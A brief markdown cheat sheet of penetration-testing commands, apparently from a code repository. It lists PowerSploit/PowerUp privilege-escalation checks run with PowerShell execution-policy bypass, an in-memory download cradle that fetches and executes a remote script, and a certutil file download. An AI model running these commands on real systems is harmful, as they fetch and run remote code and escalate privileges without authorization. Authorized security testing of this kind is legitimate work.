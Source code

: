 # Helpful pentest commands

## Powersploit

* powershell -exec bypass -c "Import-Module .\Privesc; Invoke-AllChecks"

#### Download In-Memory:

* powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://.../PowerUp.ps1'); Invoke-AllChecks"

## Simple Download:

* certutil -urlcache -split -f "http://..."

* IEX (New-Object Net.WebClient).DownloadString('http://.../PowerUp.ps1'); Invoke-AllChecks
